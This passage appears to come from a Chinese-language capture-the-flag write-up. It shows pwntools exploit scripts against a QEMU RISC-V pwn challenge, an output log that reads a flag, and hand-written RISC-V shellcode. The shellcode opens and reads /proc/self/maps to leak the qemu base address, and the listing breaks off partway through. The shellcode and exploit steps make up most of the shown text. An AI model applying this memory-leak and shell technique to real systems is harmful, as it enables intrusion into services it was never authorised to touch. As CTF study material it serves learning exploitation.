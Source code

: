 ```python

io.send(p64(qemu_base)+p64(libc_base))
io.interactive()
```

```python
➜  python exp.py
[+] Opening connection to 10.10.10.1 on port 60001: Done
[+] 0x55a0503ca000
[+] 0x7f4cdd002000
[*] Switching to interactive mode
$ cat /flag2
$ /readflag2
flag2
```

> 汇编源码版shellcode：远程版，比赛时的自己作品，因为当时不知道多次读文件才能读到libc那行地址，故当时采用的是用got表泄露libc，所以交互次数有点多。而且利用的地址需要硬编码到shellcode中，所以不方便写成二进制版。虽然现在看起来又臭又长，但是比赛时搞出来已经不错了hhhhhhh

```python
from pwn import *
import os

libc  = ELF("./libc-2.27.so")
io = remote("10.10.10.1",60001)

def gen_shellcode(shellcode):
    f = open("shellcode.s","w");f.write(shellcode);f.close()
    os.system("riscv64-linux-gnu-gcc shellcode.s -c")
    os.system("riscv64-linux-gnu-ld shellcode.o -o shellcode")
    os.system("riscv64-linux-gnu-objdump -d ./shellcode")
    os.system("riscv64-linux-gnu-objcopy -O binary --only-section=.text shellcode shellcode.text")
    f = open("shellcode.text","rb");sc = f.read();f.close()
    return sc

shellcode  = '''
    # leak qemu_base and wait for next shellcode
    .global _start
    .text
_start:
    li s1, 0x2e2e2f656d6f682f   # Load "/home/../proc/self/maps" backwards into s1,s2,s3
    li s2, 0x65732f636f72702f
    li s3, 0x007370616d2f666c
    sd s1, -24(sp)              # Store dword s1,s2,s3 on the stack
    sd s2, -16(sp)              
    sd s3, -8(sp)               
    addi a1,sp,-24              # a1 = filename = sp + (-24)
    slt a0,zero,-1              # a0 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 56                   # openat = 56
    ecall                       # Do syscall: openat(0,"/home/../proc/self/maps",0)

    addi a1,sp,-400             # a1 = sp + (-400)
    li a2, 400                  # a2 = 400
    li a7, 63                   # read = 63
    ecall                       # Do syscalls: read(a0,sp-400,400)

    li a0,1                     # a0 = 1
    addi a1,sp,-93              # a1 = sp + (-93)
    li a2,93                    # a2 = 93
    li a7,64                    # write = 64
    ecall                       # Do syscalls: write(1,sp-93,93) leak qemu_base

    li a0,0                     # a0 = 0
    li a1,0x6c000               # a1 = 0x6c000
```